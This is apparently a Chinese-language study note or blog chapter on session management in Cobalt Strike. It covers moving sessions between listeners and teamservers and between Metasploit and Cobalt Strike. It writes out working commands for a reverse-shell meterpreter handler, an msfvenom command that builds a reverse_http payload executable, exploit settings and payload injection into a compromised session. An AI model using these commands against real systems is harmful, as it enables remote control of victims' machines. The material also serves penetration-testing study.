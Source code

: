﻿---
title: 5.Session_Manage
categories:
- Network_Security
- Intranet_Infiltration
- Cobalt_Strike
tags:
- Network_Security
date: 2024-01-20 11:34:14
---

# 第五章 会话管理

## 1. 不同 listener 之间的会话转移

1. 右键会话(spawn) --> 选择其他的 listener



## 2. 不同的 teamserver 之间的会话转移

1. 在新的 teamserver 中创建监听器 --> 右键会话转移(spawn) --> 选择刚刚新建的监听器



## 3. cobalt strike 派生 metasploit 会话

1. 首先在 metasploit 中创建监听（这里使用 reverse_tcp ）：

    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.43.106
    set lport 4444
    exploit -j
    ```

    结果：

    ![image-20220124112805508](image-20220124112805508.png)

     补充：

    jobs 命令可以查看后台的任务项。例如：

    ![image-20220124112902547](image-20220124112902547.png)

    使用 `kill <id>` 可以关闭某个任务

2. 在 cobalt strike 中新建监听器，这里根据上文的监听类型，选择对应的监听器种类：

    ![image-20220124113114337](image-20220124113114337.png)

    这里要注意的是：

    1. Payload 要选择之间 msf 中设置的，要选 foreign
    2. 主机和端口要和刚刚在 msf 中设置的一致。

3. 在 cobalt strike 中选择要转移的会话，选择刚刚建立的监听器即可。

    <img src="会话管理.assets/image-20220124113505915.png" alt="image-20220124113505915" style="zoom:80%;" />

    

## 4. metasploit 生成木马和 cobalt strike 会话

1. 首先利用 metasploit 生成一个反弹 http shell：

    `msfvenom -p windows/meterpreter/reverse_http lhost=192.168.43.106 lport=55555 -f exe > shell_tcp_43.106_55555.exe`

2. 在 cobalt strike 中设置监听器。这里的监听器为 windows/beacon_http/reverse_http

    ![image-20220124153005256](image-20220124153005256.png)

3. 靶机执行 shell，获得会话。

    其实这里的 cobalt strike 相当于 msf 的 handler。



## 5. metasploit 利用 exp 将会话转给 cobalt strike

1. 正常使用攻击 exp。
2. 设置 payload 的时候选择与 cobal strike 中设置的监听器相同类型的 payload。例如都是 reverse_http
3. 设置 Lhost 和 Lport 都是 cobalt strike 监听器的主机地址和端口。
4. `set disablepayloadhandler True` 。将 DisablePayLoadHandler 设置为 true。这告诉 metasploit 框架，它不需要在metasploit 框架内创建处理程序来服务有效负载连接。
5. `set PrependMigrate true`。这个选项告诉 metasploit 框架修改其 stager，以便在利用之后立即迁移到另一个进程。此选项对于客户端攻击非常重要。它允许您的会话在被利用的应用程序崩溃或关闭时存活。
6. 个人实验时利用的是 ms16\_032 exp。在 msf 设置 payload 的时候，虽然设置其为 reverse_http，但最终 show options 的时候还是 reverse_tcp。最终在 cobalt strike 中依旧无法获得会话。



## 6. metasploit session 派生 cobalt strike 会话

1. 首先利用 exp 产生 session。

2. 将获得的 session 通过 `background` 置于后台。

3. 利用以下模块：

    ```bash
    use exploit/windows/local/payload_inject
    # 这里设置具体的 session
    set session x
    # 这里设置的 payload 要和 cobalt strike 中设置的监听器的配置一致
    set payload windows/meterpreter/reverse_http
    # cobalt strike 监听器的主机地址
    set lhost 192.168.0.106
    # cobalt strike 监听器的端口地址
    set lport 1234
    set DisablePayloadHandler true
    exploit -j
    ```

4. 结果如下：

    ![image-20220125205227167](image-20220125205227167.png)

    
